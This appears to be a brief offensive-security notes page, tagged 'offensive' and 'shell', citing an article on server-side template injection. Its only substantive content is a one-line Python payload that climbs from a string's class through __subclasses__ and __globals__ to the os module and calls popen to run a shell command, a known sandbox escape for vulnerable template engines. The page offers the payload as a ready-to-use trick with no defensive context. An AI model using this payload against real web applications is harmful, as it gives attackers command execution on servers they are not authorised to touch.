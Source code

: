 ```yaml
---
slug: referencing-sys-modules-py
title: Referencing System Modules Using Python
description: Referencing System Modules Using Python
authors: [kbbgl]
tags: [cybersecurity,offensive,python,sys,module,shell]
---
```


[Source](https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part)

```python
"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()
```
